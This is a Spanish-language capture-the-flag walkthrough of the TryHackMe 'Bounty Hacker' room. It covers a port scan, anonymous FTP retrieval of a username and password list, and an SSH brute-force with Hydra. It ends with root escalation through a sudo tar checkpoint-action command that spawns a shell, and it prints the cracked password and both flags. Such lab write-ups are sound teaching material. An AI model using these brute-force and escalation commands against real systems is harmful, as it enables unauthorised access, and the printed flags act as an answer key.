# Bounty Hacker

## Escaneo de puertos

Realizamos un mapeo de puertos para identificar servicios disponibles con `nmap`:

```bash
sudo nmap -sV -T4 -p- 10.10.85.142
```

Se detectan tres puertos abiertos:

* 21: FTP
* 22: SSH
* 80: HTTP



## Acceso por FTP

Conectamos anónimamente al FTP y desactivamos el modo pasivo para que sea el servidor quien inicie la conexión:



Listamos los archivos y los descargamos con `get`:



En `task.txt` aparece un usuario llamado `lin`:



Y en `locks.txt` varias posibles contraseñas:



## Ataque de fuerza bruta con Hydra

Usamos `locks.txt` como diccionario contra SSH para el usuario `lin`:

```bash
hydra -l lin -P locks.txt ssh://10.10.85.142
```

La contraseña obtenida es **RedDr4gonSynd1cat3**.



## Acceso por SSH

Accedemos al sistema con `lin`:

```bash
ssh lin@10.10.85.142
```



Leemos la flag de usuario en `user.txt`:



```
THM{CR1M3_SyNd1C4T3}
```

## Escalada de privilegios

Comprobamos los permisos de sudo del usuario:

```bash
sudo -l
```



Vemos que `/bin/tar` puede usarse con privilegios según GTFOBins:



Ejecutamos:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```



Obtenemos shell como root, navegamos a `/root` y leemos la flag:



```
THM{80UN7Y_h4cK3r}
```
